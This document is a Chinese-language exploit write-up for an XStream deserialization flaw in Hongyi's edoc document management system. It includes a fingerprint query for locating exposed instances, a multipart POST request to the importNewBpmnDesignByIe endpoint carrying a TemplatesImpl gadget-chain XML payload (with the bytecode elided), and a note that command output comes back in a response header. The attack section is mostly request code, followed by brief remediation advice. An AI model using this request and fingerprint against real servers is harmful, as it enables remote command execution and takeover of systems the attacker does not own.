


# 鸿翼edoc importNewBpmnDesignByIe XStream反序列化漏洞

## 漏洞描述

上海鸿翼软件电子文档管理系统 `/edoc2Flow-web/edoc-etc-processManage/importNewBpmnDesignByIe` 接口存在 XStream 反序列化漏洞。攻击者通过上传精心构造的 XML 文件，利用 XStream 反序列化链执行任意命令，获取服务器控制权限。

## 网络测绘

```
body="/Content/themes/techblue/main.parttwo.css" || body="/inbiz/wcm/fex/index"
```

## 漏洞复现



```
POST /edoc2Flow-web/edoc-etc-processManage/importNewBpmnDesignByIe?groupId=1 HTTP/1.1
Host: target
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="poc.xml"
Content-Type: application/xml

<linked-hash-set>
<dynamic-proxy>
  <interface>map</interface>
  <handler class='com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl'>
  ...
      <proxy class='com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' serialization='custom'>
        <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
        <default>
          <__name>Pwnr</__name>
          <__bytecodes>
            <byte-array>[恶意类字节码，执行任意命令]</byte-array>
          </__bytecodes>
        </default>
        </com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
      </proxy>
  ...
</linked-hash-set>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



通过 `Last-Modified-Xisxf` 请求头可验证命令执行结果（如 `id`、`ifconfig` 命令回显）。

## 漏洞修复

1. 关闭互联网暴露面或对接口设置访问权限；
2. 升级 XStream 至安全版本，启用安全白名单机制，禁用危险的反序列化类型。

> 仅限授权测试。完整 XML 载荷见原文。
